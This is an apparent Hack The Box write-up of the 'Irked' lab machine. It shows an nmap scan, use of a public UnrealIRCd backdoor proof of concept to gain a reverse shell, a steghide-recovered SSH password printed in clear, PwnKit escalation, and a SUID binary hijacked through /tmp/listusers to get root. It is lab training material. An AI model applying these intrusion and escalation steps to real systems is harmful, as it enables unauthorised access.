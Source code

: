 ```yaml
---
title: "Irked - Writeup"
classes: single
ribbon: LightBlue
categories:
  - writeup
tags:
  - writeups
  - pentest
  - writeup
  - oscp
  - shell
  - exploit
  - htb
  - hackthebox
  - machine
  - easy
  - linux
toc: true
hide_title: true
excerpt: ""
sidebar:
        nav: "menu_writeups"
---
```


## Irked
![](https://kar0nx.github.io/assets/images/writeup/5fb846e75cf0db0c4b27e2dc64a9bf82.png)
## Reconnaissance

IP: 10.10.10.117
## NMAP

```
nmap -T4 -p- -A 10.10.10.117
```

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-04 12:41 UTC
Nmap scan report for 10.10.10.117
Host is up (0.031s latency).
Not shown: 65528 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey: 
|   1024 6a:5d:f5:bd:cf:83:78:b6:75:31:9b:dc:79:c5:fd:ad (DSA)
|   2048 75:2e:66:bf:b9:3c:cc:f7:7e:84:8a:8b:f0:81:02:33 (RSA)
|   256 c8:a3:a2:5e:34:9a:c4:9b:90:53:f7:50:bf:ea:25:3b (ECDSA)
|_  256 8d:1b:43:c7:d0:1a:4c:05:cf:82:ed:c1:01:63:a2:0c (ED25519)
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Site doesn't have a title (text/html).
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          38395/tcp6  status
|   100024  1          42849/udp6  status
|   100024  1          45488/tcp   status
|_  100024  1          46628/udp   status
6697/tcp  open  irc     UnrealIRCd
8067/tcp  open  irc     UnrealIRCd
45488/tcp open  status  1 (RPC #100024)
65534/tcp open  irc     UnrealIRCd
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.10 - 4.11, Linux 3.13 - 4.4
Network Distance: 2 hops
Service Info: Host: irked.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 5900/tcp)
HOP RTT      ADDRESS
1   30.67 ms 10.10.14.1
2   30.82 ms 10.10.10.117

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 26.09 seconds
```

add irked.htb /etc/hosts

## Website
### Site

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250904144138.png)

/manual found in ffuf
![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250904144428.png)

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250904144402.png)

default apache documentation page

## IRC 

Searching for vulnerabilities I found:

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250904151257.png)

I found Poc non-metasploit
https://github.com/Ranger11Danger/UnrealIRCd-3.2.8.1-Backdoor

add ip and port to script

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250904151546.png)

now start exploit 

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250904151719.png)

and we got reverse shell

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250904151733.png)

Upgrade to TTY shell

```
python3 -c "import pty; pty.spawn ('/bin/bash')"
```

## Gaining Access

Wanted to grab first flag but cannot open it as ircd user, but I found intersting file in documents folder of djmardov user:

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250904154014.png)

When I see sth like steg I know that I need to use steghide :D. Found only 1 photo on this box so let's download it and check with steghide
UPupDOWNdownLRlrBAbaSSss

and we got other password

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250904154315.png)

Kab6h+m+bbp2J:HG
Connect via ssh

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250904154416.png)

## Privilege Escalation

Running linpeas I found pkexec suid so it is easy pwnkit

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250904155446.png)

I have zip in my opt folder 
https://github.com/ly4k/PwnKit
download it unzip and run pwnkit32

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250904155414.png)

We have root access, now let's grab flag.

## Privilege Escalation (proper method)

Unknown SUID binary

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250904161418.png)

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250904161450.png)

Looks like this is searching for /tmp/listusers but it's not there
create sth here to check it

```
echo id > /tmp/listusers
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250904161632.png)

Great it executes our command as root, so replace it with bash

```
echo bash > /tmp/listusers
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250904161747.png)

And we got root shell